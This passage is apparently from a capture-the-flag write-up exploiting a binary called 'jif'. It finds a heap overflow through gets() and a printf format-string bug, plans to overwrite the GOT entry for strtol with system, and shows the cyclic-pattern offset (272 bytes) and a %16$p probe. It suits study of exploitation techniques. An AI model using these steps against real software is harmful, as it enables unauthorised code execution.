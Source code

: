 A quick scan yields the vulnerabilities, there's `gets(local_150)` and `printf(local_118)`, however `gets` is _getting_ into the heap (look before the `do` loop, most of the variables are allocated on the heap), however stack array `local_118` is copied from heap array `local_148`, but only `0xfa` (250) chars and `local_118` is allocated for 264 bytes and 280 bytes from the return address on the stack.  Anyway, none of this matters since there's no `return`, so there wasn't a shot a ROP anyway.

So we know what we cannot do.  Clearly the easy win is to just change `strtol` after `gets` into `system` by manipulating the GOT.

```
  local_150 = (char *)malloc(0xfa);
  local_148 = (char *)malloc(0xfa);
```

`gets(local_150)` is unbounded and will overwrite `local_148` in heap, what ends up in `local_148` will make its way into `local_118` via `strncpy` and eventually land on `printf`.

The first thing we need to figure out is how much to write into `gets` to get to `local_148`.  There's probably a way to solve this with math, but I was lazy and just sent 300 chars of garbage:

```bash
# cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
# ./jif
SYSTEM CONSOLE> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: saactaacuaacvaacwaacxaacyaac
SYSTEM CONSOLE> ^C
# cyclic 300 | sed 's/saactaacuaacvaacwaacxaacyaac.*//' | wc -c
272
```

Right, so 272 bytes, then anything after is ripe for `printf` exploitation.

Next, we need to find the `printf` offset, simply send 272 bytes + `%nn$p` with `nn` starting at 1 until the output matches the input:

```bash
# ./jif
SYSTEM CONSOLE> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%16$p
Check Systems
1 - Hoth
2 - Black Hole
3 - Mars
4 - Logout
Current location: 0x7024363125
```
